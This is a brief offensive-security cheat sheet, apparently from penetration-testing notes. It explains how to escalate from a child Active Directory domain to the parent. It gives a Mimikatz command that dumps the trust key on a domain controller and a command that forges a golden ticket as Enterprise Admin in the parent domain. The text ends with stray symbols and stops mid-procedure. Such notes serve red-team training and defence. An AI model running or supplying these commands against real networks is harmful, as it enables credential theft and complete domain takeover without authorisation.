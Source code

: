## Domain Trust Key \(Domain Traversal\) 

On a Domain Controller in the child domain:

```text
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```

Get the NT hash `(rc4_hmac_nt)` from underneath "`[ In ] child.test.com -> test.com`

Create a TGT for an Enterprise Admin in the parent domain:

```text
kerberos::golden /user:Administrator /domain:child.test.com /service:krbtgt  /sid:<current-domain-sid> /sids:<parent-domain-ea-group> /rc4:<trust-key> /target:test.com /ticket:C:\tickets\parent-trust.krb
```

Use TGT to request a TGS for a service on a DC in the parent domain.

$$$$$$$
